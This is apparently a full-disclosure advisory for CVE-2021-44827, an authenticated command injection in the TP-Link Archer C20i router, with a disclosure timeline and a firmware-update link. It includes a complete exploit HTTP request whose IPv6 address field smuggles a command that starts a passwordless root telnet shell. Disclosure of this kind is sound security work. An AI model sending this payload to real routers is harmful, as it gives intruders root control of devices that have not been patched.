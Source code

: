 # CVE-2021-44827

# Summary

TP-Link router Archer C20i contains authenticated remote code execution vulnerability.


# Tech details

TP-Link router `Archer C20i` firmware version `0.9.1 3.2 v003a.0 Build 170221 Rel.55462` or older
is vulnerable to authenticated remote code execution by injecting an OS command into the network
interface configuration web request. Admin credentials are required to exploit it.


# Vulnerability

The vulnerable parameter is `X_TP_ExternalIPv6Address` and an example of an exploit may look like this:

<pre>
POST /cgi?2&2 HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.1/mainFrame.htm
Content-Type: text/plain
Content-Length: 657
Origin: http://192.168.0.1
Connection: close
Cookie: Authorization=Basic YWRtaW46a2o4NzZmc2Q1NjI0ODk=

[WAN_ETH_INTF#1,0,0,0,0,0#0,0,0,0,0,0]0,1
X_TP_lastUsedIntf=ipoe_eth3_s
[WAN_IP_CONN#1,1,1,0,0,0#0,0,0,0,0,0]1,21
externalIPAddress=192.168.9.222
subnetMask=255.255.255.0
defaultGateway=192.168.9.2
NATEnabled=1
X_TP_FullconeNATEnabled=0
X_TP_FirewallEnabled=1
X_TP_IGMPProxyEnabled=1
X_TP_IGMPForceVersion=0
maxMTUSize=1500
DNSOverrideAllowed=1
DNSServers=192.168.9.3,0.0.0.0
X_TP_IPv4Enabled=1
X_TP_IPv6Enabled=0
X_TP_IPv6AddressingType=Static
X_TP_ExternalIPv6Address=&telnetd -p 1024 -l sh&
X_TP_PrefixLength=64
X_TP_DefaultIPv6Gateway=::
X_TP_IPv6DNSOverrideAllowed=0
X_TP_IPv6DNSServers=::,::
X_TP_MLDProxyEnabled=0
enable=1
</pre>

This authenticated web request would start a `telnet` server on tcp port 1024 and allow root connection without a password.


# Proof-of-concept

A proof of concept python script is available in this repo:

[https://github.com/full-disclosure/CVE-2021-44827](https://github.com/full-disclosure/CVE-2021-44827)


# Update is available

To mitigate the issue please update to the latest available firmware from TP-Link:

[https://www.tp-link.com/en/support/download/archer-c20i/#Firmware](https://www.tp-link.com/en/support/download/archer-c20i/#Firmware)

Full Disclosure team recommends using routers that support `OpenWRT`.

# Timeline

<pre>
2021-12-08 - initial research
2021-12-09 - CVE-2021-44827 assigned
2021-12-13 - an exploit PoC sent to TP-Link
2021-12-21 - TP-Link confirmed the issue
2022-01-18 - TP-Link releases a fixed firmware and asks to verify
2022-02-17 - TP-Link publishes the fixed firmware
2022-03-02 - full disclosure
</pre>
